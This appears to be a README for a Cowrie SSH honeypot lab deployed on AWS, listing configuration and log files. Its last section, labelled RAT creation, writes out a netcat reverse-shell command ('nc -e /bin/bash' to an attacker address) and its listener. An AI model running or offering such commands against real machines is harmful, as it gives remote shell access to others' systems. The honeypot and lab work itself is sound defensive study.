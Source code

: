 # Cowrie-Honeypot-Deployment-Project


Requirements
Software required to run locally:

Python 3.9+

python-virtualenv

For Python dependencies, see requirements.txt.

Files of interest:
etc/cowrie.cfg - Cowrie’s configuration file. Default values can be found in etc/cowrie.cfg.dist.

share/cowrie/fs.pickle - fake filesystem

etc/userdb.txt - credentials to access the honeypot

honeyfs/ - file contents for the fake filesystem - feel free to copy a real system here or use bin/fsctl

honeyfs/etc/issue.net - pre-login banner

honeyfs/etc/motd - post-login banner

var/log/cowrie/cowrie.json - transaction output in JSON format

var/log/cowrie/cowrie.log - log/debug output

var/lib/cowrie/tty/ - session logs, replayable with the bin/playlog utility.

var/lib/cowrie/downloads/ - files transferred from the attacker to the honeypot are stored here

share/cowrie/txtcmds/ - file contents for simple fake commands

bin/createfs - used to create the fake filesystem

bin/playlog - utility to replay session logs


COWRIE HONEYPOT SETUP: 

Configured Cowrie with realistic settings to emulate a vulnerable system.

Deployed on AWS using the Free Tier for cost-effective cloud hosting.

Implemented security groups to control traffic and access, ensuring a controlled environment.

RAT Creation and Deployment:

Utilized the ncat utility to create an executable shell on the victim machine with the command: nc -e /bin/bash ipaddress required.

Executed the reverse shell on the attacker's system using: sudo ncat -k -l -v -p portnumber, establishing a connection between the attacker's system and the target environment.
